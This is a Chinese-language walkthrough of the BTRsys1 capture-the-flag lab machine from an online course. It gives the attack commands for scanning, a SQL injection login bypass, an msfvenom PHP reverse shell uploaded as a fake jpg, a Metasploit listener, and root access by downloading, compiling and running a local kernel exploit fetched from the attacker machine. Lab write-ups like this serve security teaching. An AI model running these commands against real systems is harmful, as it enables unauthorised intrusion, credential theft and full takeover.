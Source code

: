 ```yaml
---
title: 【网络安全0x10】综合测试（低难度）--- BTRsys1
date: 2020-06-25 18:35:08
tags: [网络安全, burpsuite, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务找到后台地址，审计源码跳过mysql检测登录，使用burpsuite抓包绕过检测上传反弹shell，执行反弹shell获得低权用户shell，提权有两种方式，一种是查看网站配置文件找到mysql数据库，里面存着密码，可以root，另外一种是searchsploit系统版本，执行本地提权脚本返回root权限，本文两种方式均有展示。

本篇使用工具nmap，dirb，nikto，burpsuite，metasploit。

<!-- more -->

# 使用命令

## metasploit

``` bash
#生成shell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.php

#开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到后台登录界面：

``` bash
nmap -sV 192.168.1.107
nmap -T4 -A -v 192.168.1.107
dirb http://192.168.1.121 
nikto -host 192.168.1.107 
```

![](./1067/1.PNG)

2. 弱口令只能登上去一个类似后台的界面，直接访问该地址能得到mysql错误的提示，这里忘截图了。审计登录界面源码，发现要求用户名得以`@btrisk.com`结尾，密码不等于`'`才会发表单给数据库，否则直接提示错误：

![](./1067/2.PNG)

3. 上mysql万能密码` ' OR '1' = '1 `，绕过检测，成功登录后台：

![](./1067/3.PNG)

4. 后台是一个文件上传目录，审计源码，发现只能传`jpg/gif/png`格式的图片文件：

![](./1067/4.PNG)

5. msfvenom生成一个php反弹shell，后缀名定义为jpg，使用burpsuite抓包修改后缀名为php：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.106 lport=4444 -f raw > shell.jpg
```

![](./1067/5.PNG)

6. metasploit开启监听，在前面dirb挖掘到的`/uploads`目录下执行反弹shell，获得低权shell：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.106
>set lport 4444
>run
```

![](./1067/6.PNG)

7. 查看根目录下文件，找到一个配置文件，里面有mysql数据库用户与口令：

![](./1067/7.PNG)

8. 使用前面的地址、用户名、口令、表名连接mysql数据库：

``` bash
mysql -h localhost -u root -D deneme -p
Enter password: toor
```

![](./1067/8.PNG)

9. 查看表`user`里的信息，得到一个密码：

``` sql
show tables;
select * from user;
```

![](./1067/9.PNG)

10. 合理猜测（又是猜）这个密码是root密码（滑稽），成功获得root权限：

![](./1067/10.PNG)

11. 不猜的话也能做，查看系统版本，搜索可利用提权漏洞：

``` bash
lsb_release -a
uname -a

searchsploit Linux 3.13.0
```

![](./1067/11.PNG)

12. 把这个提权漏洞复制到本地apache根目录下，开启apache2服务：

``` bash
cp /usr/share/exploitdb/exploits/linux/local/37292.c /var/www/html/shell.c
service apache2 start
```

![](./1067/12.PNG)

13. 靶机wget下载文件到`/tmp`下，gcc编译执行，获得root权限：

``` bash
wget -O /tmp/shell.c http://192.168.1.106/shell.c
cd /tmp
gcc shell.c -o shell
./shell
```

![](./1067/13.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [渗透测试之BTRsys v1靶机 | jlzj's blog
](https://jinlanzhijiao.github.io/2018/11/08/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B9%8BBTRsys-v1%E9%9D%B6%E6%9C%BA/)